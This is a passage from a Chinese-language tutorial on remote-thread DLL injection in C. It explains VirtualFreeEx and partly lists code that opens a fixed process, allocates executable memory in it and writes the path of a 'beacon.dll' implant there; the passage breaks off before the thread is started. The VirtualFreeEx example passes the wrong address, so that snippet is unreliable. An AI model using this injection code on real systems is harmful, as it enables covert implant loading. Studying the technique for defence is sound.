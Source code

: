 这里利用的就是线程函数的返回值。



6、关闭存放DLL名称的内存空间

```c
 VirtualFreeEx(hProcess,&NumberOfBytesWritten,0,MEM_RELEASE);  //清楚保存DLL名称的空间
```

`VirtualFreeEx()`函数：

```c
BOOL VirtualFreeEx(
  [in] HANDLE hProcess,
  [in] LPVOID lpAddress,
  [in] SIZE_T dwSize,
  [in] DWORD  dwFreeType
);
```

- hProcess：进程的句柄。要释放的空间在那个进程中
- lpAddress：指向要释放的内存区域的起始地址的指针。从哪里开始释放
- dwSize：要释放的内存区域的大小（以字节为单位）。释放多大
- dwFreeType：释放操作类型。MEM_RELEASE 释放占位符的指定页面区域或占位符





总代码：

```c
// ReomteThreadInjection.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"
#include "windows.h"
#include "stdio.h"
#include "iostream"


char string_inject[] = "c://beacon.dll";

int main(int argc, char* argv[])
{
	//进程PID的获取，此处设定成固定值
	int pid = 2668;
	
    //打开指定进程
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

	//在打开的进程中开辟空间，用于存放DLL名称
	LPVOID baseAddr = ::VirtualAllocEx(hProcess, NULL, sizeof(string_inject), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (baseAddr == NULL)
	{
		printf("VirtualAllocEx failure\n");
	}
	printf("base address that VirtualAllocEx returns is 0x%x\n", (DWORD)baseAddr);

	// 将DLL名称写入内存
	DWORD NumberOfBytesWritten = 0;
	if(!WriteProcessMemory(hProcess,baseAddr,string_inject,sizeof(string_inject),&NumberOfBytesWritten))
	{
		printf("WriteProcessMemory failure\n");
	}
	printf("NumberOfBytesWritten = 0x%x\n", NumberOfBytesWritten);

```